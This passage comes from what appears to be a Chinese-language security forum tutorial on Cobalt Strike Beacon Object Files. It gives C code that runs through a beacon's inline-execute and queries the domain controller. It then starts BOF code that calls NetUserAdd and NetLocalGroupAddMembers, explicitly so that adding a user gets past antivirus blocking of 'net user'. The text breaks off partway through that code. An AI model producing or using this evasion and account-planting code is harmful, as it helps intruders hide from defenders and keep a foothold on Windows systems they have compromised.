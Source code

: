 ```C

#include <LM.h>

#ifdef BOF
void go(char* buff, int len) {
    DWORD dwRet;
    PDOMAIN_CONTROLLER_INFO pdcInfo;
    dwRet = NETAPI32$DsGetDcNameA(NULL, NULL, NULL, NULL, 0, &pdcInfo);
    if (ERROR_SUCCESS == dwRet) {
        BeaconPrintf(CALLBACK_OUTPUT, "%s", pdcInfo->DomainName);
    }
    NETAPI32$NetApiBufferFree(pdcInfo);
}
#else

void main(int argc, char* argv[]) {

}

#endif
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-7424760eed68a0e99013b68454111f67a74c5fa8.png)  
于此我们也可以发现，go函数就是bof执行的入口，当在cs的beacon上执行inline-execute时就会调用go函数。

bof绕过杀毒添加用户
-----------

我们在cs上直接利用`net user`会被阻止

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-9540692a2bf7cd5637384448c0af0362978f88f2.png)  
但是我们如果采用bof的方式就能够绕过 代码如下

```C
#include <windows.h> 
#include <stdio.h> 
#include "bofdefs.h"
#include "beacon.h" 

#pragma region error_handling
#define print_error(msg, hr) _print_error(__FUNCTION__, __LINE__, msg, hr)
BOOL _print_error(char* func, int line, char* msg, HRESULT hr) {
#ifdef BOF
  //BeaconPrintf(CALLBACK_ERROR, "(%s at %d): %s 0x%08lx", func, line,  msg, hr);
  BeaconPrintf(CALLBACK_OUTPUT, "Hello world");
#else
  printf("[-] (%s at %d): %s 0x%08lx", func, line, msg, hr);
#endif // BOF

  return FALSE;
}
#pragma endregion

typedef DWORD NET_API_STATUS;

DECLSPEC_IMPORT NET_API_STATUS WINAPI NETAPI32$NetUserAdd(LPWSTR, DWORD, PBYTE, PDWORD);
DECLSPEC_IMPORT NET_API_STATUS WINAPI NETAPI32$NetLocalGroupAddMembers(LPCWSTR, LPCWSTR, DWORD, PBYTE, DWORD);

#include <LM.h>

#ifdef BOF
void go(char* buff, int len) {
  USER_INFO_1 UserInfo;
```